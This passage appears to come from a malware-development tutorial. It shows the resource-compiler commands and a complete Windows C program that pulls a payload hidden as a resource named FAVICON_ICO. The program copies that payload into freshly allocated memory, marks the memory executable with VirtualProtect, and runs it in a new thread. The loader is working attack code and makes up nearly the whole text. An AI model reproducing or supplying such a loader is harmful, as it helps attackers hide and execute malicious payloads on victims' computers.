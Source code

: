 Finally the resources need to compiled before the compilation of the program:

```cpp
rc resources.rc
cvtres /MACHINE:x64 /OUT:resources.o resources.res
```

Our final program would be the following:

```cpp

#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "resources.h"
int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
	DWORD oldprotect = 0;
	HGLOBAL resHandle = NULL;
	HRSRC res;
	
	unsigned char * payload;
	unsigned int payload_len;
	
	// Extract payload from resources section
	res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	payload = (char *) LockResource(resHandle);
	payload_len = SizeofResource(NULL, res);
	
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	// Copy payload to new memory buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}
	return 0;
}
```



[back](./)
